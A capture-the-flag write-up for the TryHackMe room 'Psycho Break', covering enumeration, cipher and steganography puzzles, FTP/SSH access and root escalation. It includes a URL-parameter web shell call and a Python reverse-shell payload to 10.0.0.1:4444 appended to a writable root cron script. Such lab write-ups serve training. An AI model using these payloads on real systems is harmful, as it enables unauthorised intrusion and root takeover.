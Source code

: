 ```yaml
---
layout: post
title: Psychobreak
date: 2020-11-14 19:00:00 +0000
categories: [Tryhackme, Easy]
tags: [thm]
---
```



Psycho Break is a TryHackMe room which is based on the video game “The Evil Within”. The objective is to get the user flag and the root flag.

![cover image](/assets/img/tryhackme/psychobreak/1.png)

**Author** | Shafdo
**Description** | Help Sebastian and his team of investigators to withstand the dangers that come ahead

Deploy the VM and let’s go…

First up is enumeration

## Task 1

![nmap](/assets/img/tryhackme/psychobreak/3.png)
A simple nmap scan would give the answers to the first task. So I tried to login to the ftp service. Anonymous login is not enabled in ftp service. So let’s move on to http.


## Task 2

![http_service](/assets/img/tryhackme/psychobreak/4.png)
In the source page we can find the room name. Let’s go into the room.

![Sadist_room](/assets/img/tryhackme/psychobreak/5.png)
We can get the key to the locker room by clicking the given link. But wait… seconds after clicking the link the the background changes and a alert box asking for the key pops up.

![Sadist_room2](/assets/img/tryhackme/psychobreak/6.png)
After entering the key, we can see the locker room page. After looking at the link to the map, it seems we need to decode the piece of text to get the map.

![Locker_room](/assets/img/tryhackme/psychobreak/7.png)
At first I thought it was rot13 encoded but I was wrong. Go the link [vigenere-solver](https://www.guballa.de/vigenere-solver) and choose the correct variant given in the image to decode the text

![decode](/assets/img/tryhackme/psychobreak/8.png)
After decoding, enter the decoded text to get access to map. Let’s move on to the next room…

![Safe_haven](/assets/img/tryhackme/psychobreak/11.png)
In the source code of the page we can find a hint.

![Safe_haven_hint](/assets/img/tryhackme/psychobreak/12.png)
I had a hard time in this part. I tried enumerating using various methods but it took me more than a hour to finally find this.

<pre>gobuster dir -u http://<ip-address>/ -w /usr/share/dirb/wordlist/medium.txt -x php,txt,js,html -t 100</pre>

use gobuster with the medium wordlist to find the hidden directory.

![The_keeper](/assets/img/tryhackme/psychobreak/14.png)
After clicking on the link we are redirected to another page.

![Save_yourself](/assets/img/tryhackme/psychobreak/15.png)
A simple google image search would tell the answer right away. And we’ll get the keeper’s key. So let’s go to the final room given in the map.

![Abandoned_room](/assets/img/tryhackme/psychobreak/18.png)
After clicking on the link, it redirects to another page.

![Spiderlady](/assets/img/tryhackme/psychobreak/19.png)
After looking at the source page, I found a hint which told that the keyword *“shell”* would be useful. So, I tried appending it to the end of the url but there was no response. Finally, after setting it with value, it responds….

```http://ip-address/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls .. ```

![dir_list](21.png)
I downloaded the two files after moving into the other directory that was returned in the response.

## Task 3

The text file is just a message so I extracted the zip file. Extract the contents of the image file using binwalk since it was corrupted.

<pre>binwalk -e image.jpg</pre>
After listening to the .wav file I found that it was morse code. So, I decrypted using [Morse Decoders](https://morsecode.world/international/decoder/audio-decoder-expert.html).

![sound_file_decryption](/assets/img/tryhackme/psychobreak/27.png)
Using the message that is decrypted  to extract the contents of the other image file with steghide.

<pre>steghide --extract -sf image_file.jpg</pre>
The text file gives the ftp credentials. Let’s login to ftp…

![FTP_creds](/assets/img/tryhackme/psychobreak/28.png)

## Task 4

I found two files in the ftp server and I downloaded using the get command.

<pre>get file-name</pre>
![program](/assets/img/tryhackme/psychobreak/30.png)

After running the program file I found that it takes a word as a argument. So, I ran the bash script.

<pre>
for i in $(cat list.dic);
do
./program $i;
done
</pre>

![program_decryption](/assets/img/tryhackme/psychobreak/31.png)
There is another bunch of numbers given to be decoded. This is multitap phone cipher. It can be cracked using [dcode]().


## Task 5

The decoded text is the SSH password. Without further wait, let’s login to ssh.

![ssh_login](/assets/img/tryhackme/psychobreak/34.png)
We found the user.txt in the home directory and some other hidden files

![ssh_hidden_dirs](/assets/img/tryhackme/psychobreak/35.png)
After reading the .readThis.txt file, it seems there is a file with the name the_eye_of_ruvik. So, I checked the /etc/crontab and I was right, there is a file named .the_eye_of_ruvik.py that runs as root for very 30 secs and whats more is we can edit the file.

<pre>
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
</pre>

So, I appended the python reverse shell in the file and opened a netcat listener in my local machine. After a few seconds I got the reverse shell.

![root_flag](/assets/img/tryhackme/psychobreak/39.png)
We also got the root flag.

## Bonus

![bonus_flag](/assets/img/tryhackme/psychobreak/40.png)

The bonus task is to delete the user ruvik

<pre>userdel -r ruvik</pre>
Run this as root

That’s it folks. Happy Hacking!!!
